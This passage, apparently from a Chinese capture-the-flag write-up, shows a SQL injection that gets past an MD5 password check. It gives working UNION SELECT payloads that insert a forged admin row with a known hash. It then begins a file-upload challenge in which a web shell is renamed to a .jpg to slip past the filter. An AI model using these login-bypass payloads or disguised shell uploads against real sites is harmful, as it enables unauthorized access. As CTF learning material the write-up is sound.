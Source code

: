 <code>第二个位置传递username，那传password的位置便在1和3之间， 接下里就是要绕过密码的MD5验证，需要把我们输入的值和数据库里面存放的用户密码的MD值进行比较，那要怎么绕过呢？可以用联合查询语句用来生成虚拟的表数据。生成6的MD5值，构造payload进行尝试，当构造1' union select 1,'admin','1679091c5a880faf6fb5e6087eb1b2dc'#&pw=6</code>

构造payload：<code>1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1</code>,拿下flag

![upload successful](./images/pasted-178.png)

# [GXYCTF2019]BabyUpload1

![upload successful](./images/pasted-179.png)
将shell改名为222.jpg文件，上传成功。
